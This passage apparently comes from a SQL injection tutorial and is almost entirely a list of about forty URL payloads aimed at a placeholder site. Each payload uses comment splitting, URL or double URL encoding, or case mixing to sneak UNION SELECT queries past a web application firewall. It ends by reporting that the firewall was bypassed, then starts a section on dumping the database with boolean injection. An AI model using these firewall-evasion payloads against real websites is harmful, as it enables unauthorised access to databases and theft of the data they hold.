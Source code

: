 ```
http://domain.com/index.php?id=1 union /*!50000%53elect*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 /*--*/union/*--*/select/*--*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 union (/*!/**/ SeleCT */ 1,2,3,4)-- -  
http://domain.com/index.php?id=1 /*!union*/+/*!select*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 /**/uNIon/**/sEleCt/**/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 +%2F**/+Union/*!select*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 /**//*!union*//**//*!select*//**/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 /*!uNIOn*/ /*!SelECt*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 /**/union/*!50000select*//**/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 0%a0union%a0select%09 1,2,3,4-- -  
http://domain.com/index.php?id=1 %0Aunion%0Aselect%0A 1,2,3,4-- -  
http://domain.com/index.php?id=1 uni<on all="" sel="">/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 %252f%252a*/UNION%252f%252a /SELECT%252f%252a*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 /*!union*//*--*//*!all*//*--*//*!select*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C 1,2,3,4-- -
http://domain.com/index.php?id=1 /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 +UnIoN/*&a=*/SeLeCT/*&a=*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 union+sel%0bect 1,2,3,4-- -  
http://domain.com/index.php?id=1 +#1q%0Aunion all#qa%0A#%0Aselect 1,2,3,4-- -  
http://domain.com/index.php?id=1 %23xyz%0AUnIOn%23xyz%0ASeLecT+ 1,2,3,4-- -  
http://domain.com/index.php?id=1 %23xyz%0A%55nIOn%23xyz%0A%53eLecT+ 1,2,3,4-- -  
http://domain.com/index.php?id=1 union(select(1),2,3)-- -  
http://domain.com/index.php?id=1 uNioN (/*!/**/ SeleCT */ 11) 1,2,3,4-- -  
http://domain.com/index.php?id=1 /**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 %0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 +union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C 1,2,3,4-- -  
http://domain.com/index.php?id=1 /*!f****U%0d%0aunion*/+/*!f****U%0d%0aSelEct*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 +UnIoN/*&a=*/SeLeCT/*&a=*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 +/*!UnIoN*/+/*!SeLeCt*/+ 1,2,3,4-- -  
http://domain.com/index.php?id=1 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 uni%20union%20/*!select*/%20 1,2,3,4-- -  
http://domain.com/index.php?id=1 union%23aa%0Aselect 1,2,3,4-- -  
http://domain.com/index.php?id=1/**/union/*!50000select*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 /^****union.*$/ /^****select.*$/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 /*union*/union/*select*/select+ 1,2,3,4-- -  
http://domain.com/index.php?id=1 /*!50000UnION*//*!50000SeLeCt*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 %252f%252a*/union%252f%252a /select%252f%252a*/ 1,2,3,4-- -  
http://domain.com/index.php?id=1 AnD null UNiON SeLeCt 1,2,3,4;%00-- -  
http://domain.com/index.php?id=1 AnD null UNiON SeLeCt 1,2,3,4+--+-  
http://domain.com/index.php?id=1 And False Union Select 1,2,3,4+--+-  
```

We bypassed the WAF and found that the 3nd column has the information.

## Dumping database (Boolean string)
